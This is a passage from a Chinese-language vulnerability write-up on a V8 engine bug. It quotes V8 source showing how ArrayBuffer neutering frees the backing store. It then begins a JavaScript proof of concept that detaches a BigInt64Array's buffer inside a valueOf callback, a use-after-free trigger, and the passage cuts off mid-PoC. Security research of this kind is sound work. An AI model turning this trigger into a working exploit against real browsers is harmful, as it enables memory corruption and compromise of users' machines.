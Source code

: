 ```
  `}`
  // Shared array buffers should never be neutered.
  CHECK(!array_buffer-&gt;is_shared());
  DCHECK(!array_buffer-&gt;is_external());
  // 准备开始 neuter 了，先获取 backing_store 指针和当前 ArrayBuffer 的长度
  void* backing_store = array_buffer-&gt;backing_store();
  size_t byte_length = NumberToSize(array_buffer-&gt;byte_length());
  array_buffer-&gt;set_is_external(true);
  // 将当前 ArrayBuffer 从ArrayBufferTracker中移除
  isolate-&gt;heap()-&gt;UnregisterArrayBuffer(*array_buffer);
  // 开始执行 neuter 操作
  array_buffer-&gt;Neuter();
  // 将backing_store占用的内存空间释放
  isolate-&gt;array_buffer_allocator()-&gt;Free(backing_store, byte_length);
  return isolate-&gt;heap()-&gt;undefined_value();
`}`
```

```
void JSArrayBuffer::Neuter() `{`
  CHECK(is_neuterable());
  CHECK(!was_neutered());
  CHECK(is_external());
  // 将当前 backing store 移除
  set_backing_store(nullptr);
  // 设置当前 length 为 0
  set_byte_length(Smi::kZero);
  set_was_neutered(true);
  set_is_neuterable(false);
  // Invalidate the neutering protector.
  Isolate* const isolate = GetIsolate();
  if (isolate-&gt;IsArrayBufferNeuteringIntact()) `{`
    isolate-&gt;InvalidateArrayBufferNeuteringProtector();
  `}`
`}`
```

简单读一下源码，我们也可以很容易的发现，**ArrayBuffer 的 neuter 操作 就是删除 ArrayBuffer 中的 backing store 并重置其 length 字段。**

综上所述，neuter 的具体操作已经非常明确了，如果不明确的话还可以使用 `%DebugPrint` 比较一下 neuter 前后的差异。

接下来我们看看 Poc。



## 四、PoC

POC 如下：

```
// flags: --allow-natives-syntax --expose-gc

var array = new BigInt64Array(11);
// constructor 返回数组
function constructor() `{` return array `}`;

function evil_callback() `{`
  print("callback");
  %ArrayBufferNeuter(array.buffer);
  gc();
  return 0xdeadbeefn;
`}`

var evil_object = `{`valueOf: evil_callback`}`

var root = BigInt64Array.of.call(
```